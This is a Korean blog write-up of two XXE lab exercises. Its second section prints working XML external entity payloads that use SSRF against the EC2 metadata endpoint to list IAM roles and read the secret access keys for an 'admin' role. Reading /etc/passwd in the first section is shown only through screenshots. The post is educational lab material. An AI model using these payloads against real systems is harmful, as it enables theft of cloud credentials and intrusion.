 ```yaml
---
title: "[2025-07-08] XXE"
excerpt: "XXE"

categories:
  - Problem
tags:
  - [XXE]

permalink: /Problem/[2025-07-08] XXE/

toc: true
toc_sticky: true

date: 2025-07-07
last_modified_at: 2025-07-07
---
```


## 🦥 본문

### XXE(1)

이 실습에는 XML 입력을 파싱하고 응답에서 예상치 못한 값을 반환하는 '재고 확인(Check stock)' 기능이 있습니다. 이 실습을 해결하려면, XML 외부 엔티티(XML External Entity, XXE)를 삽입하여 /etc/passwd 파일의 내용을 가져오세요.

사이트를 처음 들어가면 아래와 같은 이미지가 나타난다
![image.png](../assets/images/posts_img/2025-07-08%20XXE/image.png)
view detail을 클릭하면 다음과 같다.
![image.png](../assets/images/posts_img/2025-07-08%20XXE/image1.png)

Check stock을 클릭하여 인터셉트 하면 다음과 같은 Request를 보낸다. 
![image.png](../assets/images/posts_img/2025-07-08%20XXE/image%20copy.png)
XML 방식으로 보내는 데 이 Request를 Repeater로 보내서 다음과 같이 보내면 비밀번호를 얻을 수 있다.
![image.png](../assets/images/posts_img/2025-07-08%20XXE/image%20copy%202.png)

### XXE(2)

이 실습에는 XML 입력을 파싱하고, 응답에 예상치 못한 값을 포함하여 반환하는 "재고 확인(Check stock)" 기능이 있습니다.

실습 서버는 기본 주소인 http://169.254.169.254/에서 실행되는 (모의된) EC2 메타데이터 엔드포인트를 가지고 있습니다. 이 엔드포인트는 해당 인스턴스에 대한 데이터를 조회하는 데 사용할 수 있으며, 일부 정보는 민감할 수 있습니다.

이 실습을 해결하려면, XXE 취약점을 이용하여 SSRF(Server-Side Request Forgery) 공격을 수행하고, EC2 메타데이터 엔드포인트로부터 서버의 **IAM 비밀 접근 키(secret access key)**를 획득해야 합니다.

위와 비슷한 사이트로 Check Stock을 클릭하여 Request를 인터셉트하면 위과 같은 Request가 나온다.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```
위와 같이 보내면 해당 계정을 알 수 있다. Res를 보면 admin인 것을 알 수 있다.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

위와 같이 보내면 key 값들을 모두 볼 수 있게 된다. 
![image.png](../assets/images/posts_img/2025-07-08%20XXE/image2.png)